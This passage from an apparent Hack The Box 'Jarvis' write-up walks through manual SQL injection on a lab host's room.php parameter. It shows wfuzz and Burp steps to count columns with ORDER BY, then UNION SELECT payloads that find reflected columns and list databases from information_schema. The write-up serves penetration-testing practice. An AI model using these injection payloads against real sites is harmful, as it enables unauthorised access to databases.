 1. Determine number of columns w/ `wfuzz`

	```
	┌──(root💀kali)-[~/htb/jarvis]
	└─# wfuzz -c -z range,1-10 "http://jarvis.htb/room.php?cod=1 order by FUZZ"
	********************************************************
	* Wfuzz 3.1.0 - The Web Fuzzer                         *
	********************************************************
	
	Target: http://jarvis.htb/room.php?cod=1%20order%20by%20FUZZ
	Total requests: 10
	
	=====================================================================
	ID           Response   Lines    Word       Chars       Payload           
	=====================================================================
	
	000000002:   200        190 L    466 W      6204 Ch     "2"      
	000000007:   200        190 L    466 W      6204 Ch     "7"      
	000000010:   200        189 L    443 W      5916 Ch     "10"     
	000000008:   200        189 L    443 W      5916 Ch     "8"      
	000000001:   200        190 L    466 W      6204 Ch     "1"      
	000000003:   200        190 L    466 W      6204 Ch     "3"      
	000000009:   200        189 L    443 W      5916 Ch     "9"      
	000000005:   200        190 L    466 W      6204 Ch     "5"      
	000000006:   200        190 L    466 W      6204 Ch     "6"      
	000000004:   200        190 L    466 W      6204 Ch     "4"      
	
	Total time: 0
	Processed Requests: 10
	Filtered Requests: 0
	Requests/sec.: 0
	```
	- We can conclude that there are 7 columns
		- `ORDER BY 1-7` : 190 L
		- `ORDER BY 8-10`: 189 L
2. Determine number of columns w/ `burp`
	```
	# Payload
	ORDER BY 7
	ORDER BY 8

	# Hypothesis
	SELECT * FROM hotel WHERE id = 1 ORDER BY 7 
	```
	![]({{ page.img_path }}Pasted%20image%2020220914203301.png)
	
3. Determine reflected columns
	```
	# Payload
	-1+UNION+SELECT+1,2,3,4,5,6,7
	```
	![]({{ page.img_path }}Pasted%20image%2020220915012941.png)
4. Determine all databases 
	```
	# Payload -1+UNION+SELECT+1,group_concat("database:",schema_name,"\n"),3,4,5,6,7+FROM+information_schema.schemata 
	```
	![]({{ page.img_path }}Pasted%20image%2020220915014114.png)